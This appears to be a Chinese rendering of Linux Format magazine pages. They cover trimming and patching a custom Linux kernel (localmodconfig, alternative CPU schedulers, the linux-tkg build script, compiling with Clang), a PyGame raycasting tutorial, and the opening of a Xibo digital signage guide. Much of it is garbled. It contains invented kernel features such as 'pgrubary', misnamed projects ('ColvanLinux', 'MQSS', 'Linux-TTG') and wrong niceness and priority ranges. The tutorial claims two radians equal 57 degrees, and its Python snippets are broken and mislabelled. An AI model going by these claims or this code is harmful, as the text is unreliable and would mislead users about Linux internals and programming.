空间（至少是内核在磁盘上的占用空间）不应该是关注点。我们 PC 上的压缩内核镜像 `/boot/vmlinuz` 仅占用 10MB。而配套的模块（位于 `/lib/modules/$(uname -r)/`）占用约 425MB。任何其他基于 Ubuntu 的系统都会有类似的统计数据（除非你已经进行了调整）。如果半个 GB 对你很重要（在旧硬件上确实如此），那么建议使用一个（仅包含所需驱动程序的）内核来实现这一目标。当然，这带来的缺点是，如果你以后购置新硬件，精简版内核将无法使其工作。

进一步调查 modules/ 目录发现，网络、媒体和 GPU 设备驱动程序合计占用空间最多（165MB）。如果你进一步检查会发现，AMDGPU 是最大的显卡驱动，约为 200MB；Nouveau（Nvidia 显卡的 FOSS 驱动）占用约 150MB。因此，砍掉你不需要的驱动是精简内核的起点。

你可能已经注意到，Linux 上的驱动程序很小。即使是 AMDGPU，与 Windows 上相当于巨大的（~450MB）下载包相比也相当紧凑。区别在于 Windows 包中极少部分是真正的“驱动”，大部分是固件，或者是华而不实且毫无用处的游戏应用程序。因此，一个接一个地删除驱动程序其实是一项相当吃力不讨好的工作（内核配置界面也没有让这件事变得简单）。当然，在这里很难节省超过几百兆的空间。

还有很多其他可以删除的内容，但同样，每个组件都很小，而且有时比看起来要关键得多。因此，盲目删除东西很可能会导致一个虽然精简但无法使用的（损坏的）内核。

> 一旦开始编译，内核源码目录会变得很大。在这里，Intel 显卡部分就占用了半个 GB。


然后搜索固件。在我们的 XPS 上，我们发现了以下行（之后是一些与 UEFI 密钥相关的无关匹配）：

`[drm] Finished loading DMC firmware i915_kbl_dmc_ver1.0.bin (0x1a1a/4)`
`0000:0000.3a:00:0 firmware ver WLAN.RM,4.1-001-K057-QCARMSMWIFI-2`

因此，我们的 Intel 显卡需要运行 DMC（很好），无线芯片的固件也需要某些文件。我们运气不算太好；它没有明确告诉我们需要哪个文件，但如果我们查看 `lspci -v` 的输出，可以获得一个型号（QCA6174）。事实证明，仓库中有一个对应的固件文件，所以那可能就是我们想要的。

同样，除非你的存储空间极其紧张，否则最好不要像这样特意将你的固件目录列入白名单。我们不介意在构建中拖入一系列旧硬件的驱动，包括 2007 年那台长寿的 Eee PC。如果只有 2GB 的 SSD，确实没有多少字节可以浪费。事实上，这种旧硬件根本跑不动 Gentoo。但这是一款 XPS 13，我们也精简了内核以确保不浪费任何资源。如果你正在制作一个为特定硬件量身定制的内核，那么技术人员常用的技巧是将所有必需的模块直接编译进内核镜像中，而不是将其作为可加载模块。内核配置界面甚至有自己的机制，可以根据当前加载运行的模块来选择模块。

幸运的是，我们可以确保你希望新内核支持的硬件已插入并正常工作。

```
$ make localmodconfig
```

该命令基于当前的内核配置以及任何当前加载的模块生成配置。一般来说，这会导致内核仍然包含一些无关的模块，但如果你有耐心手动编译所有内容，那么这就是最佳路径。最终你会找到通往“内核极乐世界”的方法。手动验证和加载每个可能的驱动程序可能非常累人，而且在某些情况下，很难将固件问题解决到令人满意地程度。当你遗漏了一个关键模块（是的，无论你是否相信，你确实需要 SCSI 磁盘支持）而必须重新构建整个内核时，会感到特别沮丧。

一个可以帮你解决这个问题的工具是 `modprobe-db`（参见 https://modprobe.db/），它记录了系统中所有加载过的模块数据库。这增加了你多年未插入的硬件在新内核上依然能正常工作的机会。

### 在哪里编译你的驱动程序？

如果你更希望将这些驱动程序编译进内核，而不是作为模块，可以使用 `localmodconfig` 命令。如果存在一些来自旧内核的奇怪配置，系统会询问你关于新源码中添加的新驱动程序。这可能需要花一天时间才能完成，但结果是值得的。一旦新配置写入当前大小，如果我们扫描类似的部分目录，可以看到如下结果：



针对每个 CPU 核心。这可能会让你在构建过程中难以操作机器，但我们有时会限制 CPU 速度。我们正在将其恢复为首选。由于这是一个通用内核，我们不需要立即处理其他驱动。因此，我们包含了在 Code Ksplice 框（框 35）中见证指令所需的 Bug。假设你现在已经完成了，安装了新内核，重启了机器等等。

接下来的步骤应该是构建一个引导配置（initrd ramdisk/ramfs 镜像）并将其放入 `/boot` 目录，以便 GRUB 可以引导它。如果你没用 GRUB，例如你使用的是使用 systemd-boot 的 Pop!_OS，则可能需要额外工作才能让引导加载程序识别新内核。令我们惊喜的是，这次在我们的 Pop!_OS 笔记本上几乎毫无障碍地运行成功了。但在全力以赴之前，请务必研究 `kernelstub` 工具的文档。Systemd-boot 要求整个内核驻留在 EFI 分区中，我不希望不小心把它填满。

随着你深入参与内核构建，你会越来越熟悉内核的配置界面以及特定选项的隐藏位置。你会发现，与广泛的误解相反，Linux 实际上支持海量硬件，从旧的业余无线电（HAM radio）到方向盘控制器（5.15 版本新增），再到 ISDN 调制解调器（还记得那些吗？）。剩下的就只是探索未知领域的问题了。如果你深入研究内核源码本身，可以发现很多有趣的东西。例如，`arch/x86/pgrubary` 子目录包含 VMI_SAMPLES。具体来说，pgrubary 是一个位于运行内核之间（例如，当加载新内核以引导时）的对象。如果运行内核的过程挂起，它们会显示一个友好的“I'm in pgrubary”消息。禁用 pgrubary 是可能的，但这不能抵消你的过错。


### 抛弃模块 (GIVE MODULES THE HEAVE-HO)

“如果你更希望将这些驱动程序编译进内核，而不是作为模块，可以使用 localmodconfig 命令。”

### 热门补丁

忘记在配置中苦苦搜寻了——使用预先打包的补丁集来设定规则。

我们一直对总部位于科罗拉多州的 System76 及其对 Linux 的贡献印象深刻。它不仅制造了更华丽的硬件和出色的桌面环境，还在后台内核设置的微调上投入了大量精力。这项工作最终形成了 System76 Scheduler，它微调了内核的 CFS（完全公平调度器）设置，以提高在交流电电源下的响应速度。你甚至不需要使用 Pop!_OS 就能从中受益，但如果你在使用，它会自动优先处理前台应用程序，以及合成器（Compositor）和窗口焦点（Window Focus）等常见的桌面进程。

Garuda Linux 最近引起了很多关注。这个基于 Arch 的、界面华丽且养眼的发行版包含几个旨在提高响应能力的守护进程。首先是 Anancy (ANother Auto NIce daemon)，它会自动提高进程的优先级（赋予更高的亲和力）。这里的核心思想（与任何调度微调一样）不是管理所有内容，而是真正地加速关键环节。其特点是通过调整优先级，使重型任务（如编译或索引）不会干扰前台发生的事情。

Niceness（谦让度）是 Garuda Linux 内核的一项特性，你可以使用 `renice` 命令手动设置程序的“niceness”。然而，这需要在每次生成进程时执行，因此使用 Anancy 及其类似工具的优势在于可以将多个 niceness（谦让度？）自动设置好。用户需要做的就是启动一个 systemd 服务。

### 理解 Niceness 级别

从技术上讲，niceness 与优先级（priority）是不同的。优先级可以取值范围从 -rt（实时）到 -51（极高优先级）再到 20（普通优先级）。默认情况下，用户进程（和大多数系统进程）被赋予 20 的优先级，重要系统进程为 10，而极其重要的进程为 0。极其重要的进程通常是 root。如果两个竞争 CPU 时间的进程具有相同的优先级，那么 niceness 最低的进程将优先执行。例如，Pubscheduler 守护进程默认以 -20 的用户进程 niceness 运行，这样其他用户进程就不会导致音频输出卡顿。

> “如果两个竞争 CPU 时间的进程具有相同的优先级，那么 niceness 最低的进程将优先执行。”

最早且最受欢迎的一组内核补丁之一是 ColvanLinux “CK”。这项工作始于一套旨在提高桌面性能的微调，随后演变为一系列新的 CPU 调度器，并在 2000 年代中期达到顶峰，于 2009 年发布了一个具有突破性的补丁。ColvanLinux 过去曾对内核开发者缺乏对桌面的关注表示担忧。但通过 BFS（及其继任者的调度工作），他试图重新使其受到重视。对于内核来说，这足够通用，而且内核反正只有一个调度器（完全公平调度器，CFS）。BFS 随后在 2016 年引入的 MQSS（队列跳表调度器，Queue Skiplist Scheduler）的进一步迭代中得到了修订。

如果你想尝试 MQSS，可以直接获取补丁并将其应用于原生源码树（参见 github.com/dqning/mqss-build-options 上的 mqss-build 脚本）。或者，MQSS 已被包含在各种自定义内核中，即 Liquorix (https://liquorix.net) 和 Linux-TTG。后者包含多种调度器的选择，以及一些旨在提高性能的 Clear Linux 补丁。Linux-TTG 还允许你使用 CPU 原生优化来编译整个内核。你可能注意到原生内核的选项非常少（不像 Zen 内核或 Freetype 等特性），但这些是针对特定系列量身定制的，而不是针对特定的微架构，例如现代 Ryzen 处理器的 Zen 4。



Linux-ttg (https://github.com/Frogging-Family/linux-ttg-incl) 在 Garuda Linux 中已升级，但你可以在任何基于 Arch 的发行版上尝试，可能在任何其他发行版上也可以。只要安装了 Arch 的 Pacman 包管理器，理论上它可以在任何地方运行，但它尚未获得官方认可，所以请自行尝试。你需要安装 Git 然后获取源码。

```
$ sudo pacman -S git
$ git clone https://github.com/Frogging-Family/linux-ttg.git
$ cd linux-ttg
```


如果你选择 Clang（见下方方框），可以选择启用链接时优化（Link Time Optimisations），但这将占用大量内存并耗时较长。

### 研究 Clang

使用 Clang 至少需要安装 `clang`、`llvm` 和 `lld`lld` 软件包及其二进制文件。如果你使用的是 Ubuntu 20.04，你必须在软件仓库中寻找较旧的版本（版本 10 系列）。在这种情况下，DuckDuckGo 将是你的好帮手……

你会被问到更多问题，其中一些问题提供的提示建议你最初最好遵循。多年来，内核定时器（Kernel Timer）频率一直是一个争议话题，与不具体的通用内核默认值 250Hz 相比，TKG 默认的 500Hz 相当常见，而 1000Hz 通常被一些低延迟内核所采用。最后，系统会询问你是否要运行 `configrf`（或任何其他内核配置界面）以进行最终的微调。

配置完成后，现在是泡杯茶的好时机，因为需要克隆、打补丁并配置内核源码。任何内核都会生成海量的文件，但该脚本可以提供帮助。通常，你可以将内核自定义为 DEB 软件包，这样应该很容易删除，但请始终留意你的 `/boot` 目录中是否有陈旧的残留文件。我们非常希望能涵盖更多的内核补丁，特别是 XanMod，但这里我们要告诉你，我们将把这些探索留给你自己。伙计们，记得告诉我们结果如何！

任何理由都可以用来展示 PgP0.05 背景。如今他们还提供定制的调度器微调。

有一个很有帮助的安装脚本，我们将在一个小时后运行它，但最新的文档会在运行前进行简报。还有一个配置文件 `customisation.cfg` 可以影响脚本的行为。与 make-apkg 一样，该脚本将构建 DEB（如果你使用 Fedora 则是 RPM）软件包。这些包可以像任何其他软件安装包一样安装。看看你的进展如何：

```bash
./install.sh install
```

系统会询问你使用的是哪个发行版（有一个通用选项，但如果你选择定制你的发行版，接下来会进行选择）。你会被问到想要安装哪个内核版本。尝试先选择稍微新一点的，从最前沿的 RC 版本到强大且稳定的 5.4 系列。我们认为选择 5.3 版本比较合适，因为它看起来既不过于新，也不比我们当前运行的版本快。然后你将可以选择 CPU 调度器（我们选择了 Project C/BMQ）并选择编译器。

### Linux Tradux 的工具

当 Linux 在 1991 年发布时，Linus 提到他更倾向于使用 BSD 和 GCC 来与之协作。他还添加了一些并非专门针对 Linux 本身的注释，因此随着“发行版”开始将 GNU 工具与 Linux 内核捆绑运行，GNU/Linux 这一结合体就诞生了。如今的发行版提供了大量的 GNU 工具（bash, tar, gcc 等），但也有许多其他非 GNU 的 Linux 工具。那些其他工具并不要求被纳入 Linux 谱系，而且如果它们要求的话，可能会遭到嘲笑。

如果你使用 Ubuntu 20.04，你必须进行一些 apt 魔法操作才能让 clang 3.5 工作。

### CLANG 使用者

一些发行版（例如 Alpine 和 Android）采用了几种非常灵活的 CPU 压缩工具（例如，分别使用强力的 xz、slim 和 Bionic 来代替 GNU 压缩）。大多数发行版仍使用 GCC 来编译内核，但多年来已经可以使用 LLVM/Clang 编译器来代替。

Android 和 ChromeOS 采用了这种方式，OpenMandriva 也是如此。LLVM（低级虚拟机器）是一个基于 C++ 对象的编译工具，而 Clang 是 LLVM 的前端，支持 C 语言（内核大部分是用该语言编写的）和 GNU C 扩展。

使用 Clang 而非 GCC 有其技术原因。首先，它能加快编译速度。其次，使用 Clang 编译的二进制文件（称为 LLVM 中间表示）可以针对不同的平台，前提是你拥有针对多种架构的适当 LLVM 后端。目前，构建内核仅支持 ARM 和 x86 目标，但其他 CPU（MIPS, RISC-V, PowerPC）也是可能的。

此外，使用 Clang 编译的二进制文件可以使用 LLVM 套件中先进的静态和动态分析工具进行研究。这可以帮助开发人员；使用 Clang 编译内核可以提高性能。除此之外，自 Linux 5.12（2021年2月）起，内核已支持一些新的 LLVM 优化（通过 Clang）。这一练习使得内核能够作为一个整体进行优化，而不是在单个源文件的上下文中进行。

### PYTHON

来源：https://github.com/jmfam/GH3dSteinstein

### 使用 Python 创建 3D 游戏世界

理解渲染 3D 世界的基础是理解游戏代码的绝佳方式。Andrew Smith 说道：“准备就绪，开始加载”……

在 90 年代初到中期，PC 上最受欢迎的一些视频游戏包括《德军总部 3D》(Wolfenstein 3D)、《毁灭战士》(Doom)、《雷神之锤》(Quake) 和《虚幻竞技场》(Unreal Tournament) 等。在本期 Linux Format 中，我们将研究创建 3D 游戏世界所涉及的构造和数学知识，类似于《德军总部 3D》(1992) 或《毁灭战士》(1993) 的构建方式。在本教程的第一部分，我们将介绍如何使用 PyGame 创建 3D 游戏世界，并研究一些用于在游戏世界中导航的数学知识（使用 Python 数学库中的函数）以及一些碰撞检测技术。

来源：《毁灭战士》，Copyright 1993, id Software。《毁灭战士》由 id Software 创建，是使用射线投射（ray casting）并以 2D 精灵为特征的第一人称射击游戏的另一个例子。

本教程基于一个 10 多年前（2011 年）创建的项目，为了本教程的方便，最近已将其适配为在最新的 Python 上运行。原项目是用 Python 2.7 编写的。本教程所基于的原始源代码和资源可以在 https://github.com/jmfam/GH3dSteinstein 找到。

由于 Python 3.x 已经发布，我们将使用它，并为本版本的教程设置 Python 3.10。对于那些已经安装了 Python 和 PyGame 的用户，Python 3.8+ 应该适用于本教程。输入以下内容以安装 Python 3.10 和 PyGame。

```bash
$ sudo apt-get install python3.10
$ sudo apt-get install python3-pip
$ python3 -m pip install pygame
```

检查 python 和 pygame 的版本。

```bash
$ git clone https://github.com/asmith1979/GH3d-2023-vol4-no4
```

作为示例，整个项目被放入一个名为 PythonProjects 的文件夹中，该文件夹在下载项目之前创建。或者，本教程的源代码可以从 https://linuxformat.com/archives 获取。本教程将重点关注位于名为 GH3dSteinstein 文件夹中的源代码。如果尚未在该文件夹中，请使用 `git clone` 进入该文件夹并获取源代码。

要编辑和查看源代码，你可以使用你所使用的 Linux 发行版中安装的默认文本编辑器，或者使用更专业的工具，如 Notepad++、PyCharm 或 VS Code。在本教程中，我们将使用 PyCharm 来编辑和浏览源文件。打开两个控制台窗口可能会很有帮助：一个用于编辑/查看源文件，另一个终端窗口用于执行 PyGame 代码。

克隆 git 仓库后，你将在 `src` 文件夹中找到本教程所需的所有文件。在这个文件夹中，你会发现源文件 `main.py` 和 `worldmanager.py`。还有一个名为 `pics` 的文件夹，其中包含用于游戏图像的附加文件夹。

1992 年发布的《德军总部 3D》是使用射线投射的 3D 第一人称射击游戏的第一个例子。

**我们的专家** Andrew Smith 是 NHS Digital 的软件开发人员，拥有软件工程学士学位和计算机网络硕士学位。

来源：《德军总部 3D》1992, id Software。


对象和其他游戏内容来创建 3D 世界。

**WorldManager.py** 是主要负责加载和生成 3D 世界环境的文件。

若要在 `src` 文件夹中运行，请输入以下命令：

```bash
python 3DWorldMain.py
```

使用方向键在生成的 3D 世界中移动和观察，通过键盘顶部的数字键 (1-5) 或数字小键盘来唤醒屏幕。当你探索完 3D 环境后，按下 Esc 键结束程序并继续本教程。

### 进入 3D 世界

使用你选择的编辑器，打开并查看 `src` 文件夹中的 `main.py`。在文件的顶部附近，你会发现一个名为 `worldMap` 的二维数组 (24x24)。该数据结构用于定义 3D 世界的内容。

在数据结构的外部边缘，你可能会看到目前定义了数字 0，它用于告知程序使用哪种墙壁纹理。以下墙壁纹理可供使用和尝试。只需将 1 替换为以下数字之一，保存并重新运行程序即可。

- 1. **鹰之墙纹理 (Eagle wall texture)**
- 2. **紫石墙纹理 (Purple-stone wall texture)**
- 3. **红砖墙纹理 (Red-brick wall texture)**
- 4. **灰石墙纹理 (Greystone wall texture)**
- 5. **蓝石墙纹理 (Blue-stone wall texture)**
- 6. **苔藓墙纹理 (Mossy wall texture)**
- 7. **木墙纹理 (Wood wall texture)**
- 8. **彩色石墙纹理 (Colour-stone wall texture)**

所有墙壁纹理都是位于 `src/walls` 文件夹中的 64x64 像素 PNG 文件。所有墙壁纹理都由位于 `worldmanager.py` 中的 `WorldManager` 类加载。打开 `worldmanager.py` 了解其实现方式。在 `WorldManager` 类中，找到 `load_textures` 方法——你会看到所有纹理（包括墙壁和游戏对象的纹理）都被加载到程序的内存中。游戏对象的所有纹理被加载到一个名为 `textures` 的集合中，而墙壁的纹理则被加载到另一个名为 `images` 的集合中。此外，所有图像都是通过一个自定义创建的名为 `load_image` 的函数加载的，该函数接收各种参数以定义图像的加载方式。下面的源代码示例展示了其实现方式的简短示例：

```python
self.images = [
```


*世界地图的截图。一个 3D 世界的二维数组表示，可以在其中移动。0 代表空旷区域。*

```python
load_image(pygame.image.load("pics/walls/eagle.png").convert()), False),
load_image(pygame.image.load("pics/walls/redbrick.png").convert()), False),
load_image(pygame.image.load("pics/walls/purplestone.png").convert()), False),
load_image(pygame.image.load("pics/walls/greystone.png").convert()), False),
```

### 第一人称...

第一人称视角由 `WorldManager.py` 中实现的 `Camera` 类表示。在运行程序时看到的生成的 3D 世界中，玩家的 x 坐标变成了 x 坐标，y 坐标和 z 坐标变成了新的 x 坐标，因此实际上你是通过 3D 游戏世界生成方式的 (x, y) 或 `WorldManager` 类中的 `draw` 函数来设置位置的。

在 `WorldManager` 的构造函数中创建了 `Camera` 类的一个实例，并传入了转换为 z 轴和 x 轴位置的初始 x 和 y 坐标，以及玩家面向的方向。

```python
class Camera(object):
    def __init__(self, x, y, zdir, diry, planex, planey):
        self.x = float(x)
        self.y = float(y)
        self.zdir = float(zdir)
        self.dir = float(diry)
        self.planeX = float(planex)
        self.planeY = float(planey)
```

### 在 3D 世界中移动

到目前为止，在本教程中我们已经介绍了如何运行游戏程序以及如何使用集合数据结构最初创建 3D 世界。现在我们将进一步深入，研究实现 3D 世界移动所需的数学原理。

### 面向对象编程

本项目采用了面向对象编程技术。`worldmanager.py` 脚本文件包含了一组用于创建和控制 3D 世界视图的类。这些类包括 `WorldManager` 和 `Camera` 类。`WorldManager` 类由一个类构造函数和一个名为 `render()` 的方法组成，该方法用于渲染 3D 世界。

面向对象编程中的每个类都采用一个构造函数，用于在创建或调用该类时初始化值并执行初始操作。例如，在构造函数中，`WorldManager` 类用于加载图像。这意味着它可以在程序运行时显示，并修改墙壁的纹理图像。`Camera` 类的构造函数用于设置程序的起始位置和方向。脚本文件中使用的两个构造函数都接收参数，以便能够从 `main.py` 脚本文件中传递值。

```python
from main import WorldManager
wm = WorldManager(worldMap, sprite_positions, 20, 11, 0, 1.0, -0.6, 0) 
```

从上面的代码示例可以看出，传递给 `WorldManager` 构造函数的是代表 3D 世界的二维数组 (`worldMap`)、x 坐标、y 坐标、玩家位置和方向。作为 `WorldManager` 构造函数操作的一部分，`Camera` 构造函数操作为玩家的第一人称视角设置了摄像机视图。

当按下“上”方向键向前移动时，将执行以下代码：

```cpp
moveX = wm.camera.x + wm.camera.dirx * moveXspeed;
if (worldMap[int(wm.camera.x)][int(wm.camera.y)] == 0)
    wm.camera.x += wm.camera.dirx * moveXspeed

moveY = wm.camera.y + wm.camera.diry * moveYspeed;
if (worldMap[int(wm.camera.x)][int(wm.camera.y)] == 0)
    wm.camera.y += wm.camera.diry * moveYspeed
```

上述代码首先通过计算沿玩家面向方向的移动距离，在世界地图上处理沿 z 轴（前进和后退）的移动，然后检查该值。如果操作在 `worldMap` 上产生 0 值，则该值代表玩家可以移动到的空旷空间。如果空间是空的，则将玩家（或摄像机视角）移动到该空间。

紧接着，处理 x 轴的移动，方式与 y 轴类似。同样，首先计算该方向的距离，并检查由此产生的移动是否处于 `worldMap` 的空旷空间中。如果是，则移动玩家（摄像机视角）。为了方便起见，上述方法可概括如下：

- 获取移动值
- 检查该移动值在 `worldMap` 上是否对应 0
- 如果空间为空，则将玩家向前移动到该空间

为了展示修改上述代码对移动产生的影响，请在以下代码行前加上 # 将其注释掉，然后运行程序：

`# if (worldMap[int(wm.camera.x)][int(wm.camera.y)] == 0)`
`#    wm.camera.y += wm.camera.diry * moveYspeed`

运行代码后，你将只能沿 z 轴向前移动，而不能沿 x 轴移动。这是因为必须对每个轴分别进行操作处理。请取消代码注释，使程序恢复正常运行。

当按下“下”方向键时，会发生类似的操作，但会导致玩家的位置值增加而不是减少。见下文：

```cpp
if(worldMap[int(wm.camera.x - wm.camera.dirx * moveXspeed)][int(wm.camera.y)] == 0)
    wm.camera.x -= wm.camera.dirx * moveXspeed

if(worldMap[int(wm.camera.x)][int(wm.camera.y - moveYspeed)] == 0)
    wm.camera.y -= wm.camera.diry * moveYspeed
```

当按下“右”方向键使玩家向右转（或使玩家顺时针旋转）时，将执行以下代码：

```cpp
oldDirX = wm.camera.dirx;
wm.camera.dirx = wm.camera.dirx * math.cos(-rotSpeed) - wm.camera.diry * math.sin(-rotSpeed);
wm.camera.diry = oldDirX * math.sin(-rotSpeed) + wm.camera.dirx * math.cos(-rotSpeed);
```

```cpp
oldPlanex = wm.camera.planex;
wm.camera.planex = wm.camera.planex * math.cos(-rotSpeed) - wm.camera.planey * math.sin(-rotSpeed);
```


*玩家在 3D 世界中移动时，墙壁使用红砖纹理的截图。这是加载到程序中的第三种纹理。*

```cpp
wm.camera.planey = oldPlanex * math.sin(-rotSpeed) + wm.camera.planey * math.cos(-rotSpeed);
```

为了使这一过程生效且保持一致与正确，方向摄像机（direction camera）和方向平面（direction plane）必须同时旋转。要尝试上述代码，请像之前一样使用 # 注释掉其中一个部分，保存并重新运行程序。

你会注意到，不仅 3D 效果受损，移动也会出现问题。请取消注释该代码段并保存程序，以便我们进行接下来的操作。

当按下“左”方向键使玩家向左转（或使玩家逆时针旋转）时，执行的代码与上述类似，但传递给三角函数的 `rotSpeed` 值是正值而非负值。请注意，按下“左”方向键时符号为 "+"。请记住，三角函数使用的是弧度而非角度。旋转速度在 `main.py` 中提前设置（见下文）：

`rotationalSpeed = Time * 2.0` 常数值单位为 弧度/秒。

从上述代码段可以看出，旋转速度被设置为每秒两个弧度，并由循环处理的次数进行偏移。两个弧度等于 57.2958 度，两个弧度跨度等于 114.5916 度，因此每次按下左或右方向键时，玩家视角将旋转 114.5916 度。

### 面向敌人

利用上述代码生成的值，可以使用这些值来确定玩家面向的方向。为了方便本教程，我们根据玩家转向的方向硬编码了以下更新值。

**面向北方的数值（默认起始值）：**
wm.camera.dirx = -1.0
wm.camera.diry = 0.0
wm.camera.planex = 0.0
wm.camera.planey = 0.66

**面向右方的数值：**
wm.camera.dirx = 0.6250948316318927722
wm.camera.diry = 0.6250948316318927722
wm.camera.planex = 0.6368916692893932
wm.camera.planey = 0.16633188970409237

**面向后方的数值：**
wm.camera.dirx = 0.998170603099867408
wm.camera.diry = -0.060370018409898301

**快速技巧**
不要通过滚动文本行来寻找变量或函数名称，请使用 IDE 的搜索功能直接跳转到你寻找的内容。


### PYTHON 数学库

Python 拥有一个功能强大的数学库，具有广泛的用途。关于本教程中介绍的项目，使用了 `math` 库中的三角数学函数，例如 `math.cos` 和 `math.sin`。总之，可以通过在 Python 脚本中编写以下代码来引入 Python 数学库：
`import math`

本项目中用到的 math 库函数包括：
- `math.cos(x)`：x 弧度的余弦值
- `math.sin(x)`：x 弧度的正弦值
- `math.abs(x)`：指定数字的绝对值

```python
wm.camera.planeX = -0.0398844065383990901
wm.camera.planeY = -0.5867816909587901
```

目前，当程序启动时，它使用上面显示的第一个旋转参数。作为本教程的一部分，我们将更改玩家的面对方向，以使右方向发生变化。位于 `main.py` 中的面对方向代码为：

```python
wm.camera = WorldManagerWorldManager(worldMap.sprite,
positions, 20, 115, 0, 0, 0, 66)
```

改为以下内容：

```python
wm.camera = WorldManagerWorldManager(worldMap.sprite,
positions, -115, 0, -0.25043823169377829, 0.19668492393292,
0.96577164583278429, 0.3277868294, 0.136518858740022, 0.987197)
```

记住 WorldManager 构造函数的输入结构可能会有所帮助，它按以下顺序接收参数：

- WorldMap 数据结构
- Sprite 位置，传入数据结构 `sprite_positions`
- 摄像机 X 位置（Z轴）
- 摄像机 Y 位置（X轴）
- 摄像机方向 X
- 摄像机方向 Y
- 摄像机平面 X
- 摄像机平面 Y

保存代码并运行程序，以查看 3D 世界的结构。在按下 Escape 键退出程序并继续教程之前，您可以随意在 3D 世界中移动。

既然您已经完成了右向方向的设置，现在让我们以上述代码为指南，尝试修改代码，使玩家面对 3D 世界的后方。修改完成后，保存并再次运行程序查看结果。

上述数值是通过连续按下右方向键使玩家面向不同方向而生成的。接下来需要的摄像机方向和摄像机平面值，是在玩家通过连续转弯面向 3D 世界左侧时获取的。

在 Python 脚本文件 `main.py` 中，当玩家在游戏环境中向左或向右转弯时，使用了三个三角数学函数中的两个。请参考下面的代码示例，了解这是如何实现的：

```python
oldDirX = wm.camera.dirX
wm.camera.dirX = wm.camera.dirX * math.sin(-rotSpeed) + wm.camera.dirY * math.sin(-rotSpeed) + oldDirX * math.sin(-rotSpeed) + wm.camera.dirY * math.cos(-rotSpeed)
oldPlaneX = wm.camera.planeX
```

在 Python 脚本文件 `WorldManager.py` 中，`abs` 函数在渲染 3D 世界时被使用，如下所示：

```python
if (side == 0):
    perpWallDist = abs((abs(mapX - rayPosX) + (1 - stepX) / 2) / rayDirX)
else:
    perpWallDist = abs((abs(mapY - rayPosY) + (1 - stepY) / 2) / rayDirY)
```

在右侧，您可以帮助识别这些值。请在 `main.py` 中找到按下空格键条件下的以下代码，见下文：

```python
if keyboard.is_pressed('space'):
    print(wm.camera.dirX)
    print(wm.camera.dirY)
    print(wm.camera.planeX)
    print(wm.camera.planeY)
```

现在，当程序运行时按下空格键，它将在终端窗口中输出 `wm.camera.dirX`、`wm.camera.dirY`、`wm.camera.planeX` 和 `wm.camera.planeY` 的值，这将帮助您在玩家面向 3D 世界左侧时调整这些数值。

尽管程序使用弧度运行，但我们能够手动操纵输出的值，并将玩家方向的角度设置为 90 度面对角。对于想要进一步改进的人，可以尝试为每 45 度的转向转换设置不同的值。总共需要获取 8 个值（360 度包含 8 个 45 度）。

在本教程中，我们涵盖了 3D 世界最初如何由 2D 数组 (`worldMap`) 定义，探讨了如何使用 `abs` 函数渲染 3D 世界，基于对所用数学知识的理解来引导程序，并介绍了 Python 数学库。我们将在下一节中基于此部分进行构建。下个模块见！

```python
wm_camera = Camera()
```

**快速提示**
什么是弧度？当半径距离包裹成一个圆时，就产生了弧度角。它大约等于 57 度，即 180/π。

弧度转角度：乘以 180，除以 Pi。
角度转弧度：乘以 Pi，除以 180。

### 构建自定义数字标牌系统

了解如何使用 Xibo 数字标牌并在 Matt Holder 的帮助下，为开源会议创建数字标牌显示屏。

大多数 *Linux Format* 的读者可能已经注意到，公共场所中显示各种信息的大尺寸屏幕数量在增加。这被称为数字标牌（Digital Signage）。在本教程中，我们将研究 Xibo，这是一个灵活的系统，可用于显示图像、视频、RSS 馈送、天气数据、地图数据、信息表、网站、嵌入式 HTML 等。我们将演示如何设置服务器和客户端，最后设计布局并调度这些内容。

**我们的专家**
Matt Holder 从事 IT 支持工作十多年，一直热衷于将 Linux 与其他安装的系统结合使用。

该系统包含一个服务器组件（开源），作为不同显示类型客户端的中心枢纽。Windows 和 Linux 客户端均为免费开源，而其他平台则是专有的、付费的许可客户端。服务器可以自托管，也可以由 Xibo 团队提供云托管。

在深入研究之前，让我们谈谈该系统中使用的一些术语。显示屏（Display）是运行播放软件并显示内容的设备的名称。这可以是一台 Windows PC、Linux PC、Android 设备或运行嵌入式软件显示的大屏幕电视。显示组（Group displays）可用于将多个显示屏分组，并且可以将内容调度在这些显示屏上运行。最后，布局（Layouts）可用于定义内容何时在显示屏上出现。

- 在登录界面输入您的用户名和密码。

布局由最终用户设计，以定义显示屏特定区域应显示的内容。布局随后被分为区域（Regions），每个区域包含一个播放列表。请参阅下面的图表（图 1），它解释了 Xibo 数字标牌系统的基本组件。

每个区域随后可以在其时间线内显示若干内容片段。随着我们在本教程中深入研究，这些概念将变得更加清晰。

### 安装服务器

Xibo 服务器利用 LAMP 栈（指 Linux 操作系统、Apache Web 服务器、MySQL 数据库和 PHP 编程语言）以及其他工具在客户端和服务器之间提供消息传递。近年来，整个系统都被封装在 Docker 容器中，使安装和未来的更新尽可能简单。我们将用于安装的服务器是 Ubuntu 20.04，但容器系统使基础操作系统变得相当不重要，因此请随意选择您最熟悉的操作系统。

**快速提示**
